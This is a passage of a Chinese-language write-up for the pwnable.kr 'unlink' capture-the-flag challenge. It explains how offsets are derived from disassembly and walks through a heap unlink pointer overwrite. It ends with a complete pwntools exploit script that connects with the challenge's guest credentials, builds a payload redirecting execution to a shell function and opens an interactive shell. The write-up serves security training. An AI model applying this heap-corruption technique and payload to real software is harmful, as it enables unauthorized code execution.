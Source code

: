 ebp可以从汇编代码中算出

```asm
.text:08048555                 call    _malloc
.text:0804855A                 add     esp, 10h
.text:0804855D                 mov     [ebp+var_14], eax
```

结合反汇编得到的代码可以得到

ebp-0x14=&A=stack_addr

这样如何解决之前的覆盖问题呢

一种方法是

当BK = ebp-4时，FD + 4 = shell +4 ，FD = shell,  覆写时，[shell+4] = ebp-4

```c
void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;//bk是[ebp-4]=[ebp-4] 也即 stack_addr+0x14-0x4
	FD=P->fd;//fd指向ecx=(shell_addr+4) 也即 (heap_addr+0x8)+0x4
	FD->bk=BK;//此时FD->bk=ecx+4 无影响
	BK->fd=FD;//此时BK->fd=ecx=(shell_addr+4)
}
```

### Exp

```python
#coding=utf-8
from pwn import *
context(arch='amd64',os='linux',log_level="DEBUG")

shell=ssh(host='pwnable.kr',user='unlink',password='guest',port=2222)

#shell.download_file("./unlink.c")
#shell.download_file("./unlink")

io=shell.run("./unlink")

shell_addr=0x080484EB

re=io.recvline()
stack_addr=int(re.split(":")[1],16) # &A
re=io.recvline()
heap_addr=int(re.split(":")[1],16) # A
io.recvline()

'''
typedef struct tagOBJ{
	struct tagOBJ* fd;//4 byte
	struct tagOBJ* bk;//4 byte
	char buf[8];//8 byte
}OBJ;
'''

payload = p32(shell_addr)#(A->buf(0~3))
payload +="a"*(0x4+0x8)#(A->buf(4~7)+padding(0x08))
payload += p32(heap_addr+0x8+0x4)#(B->fd)
payload += p32(stack_addr+0x14-0x4)#(B->bk)

#print hex(stack_addr)+" "+hex(heap_addr)

io.send(payload)
io.interactive()
```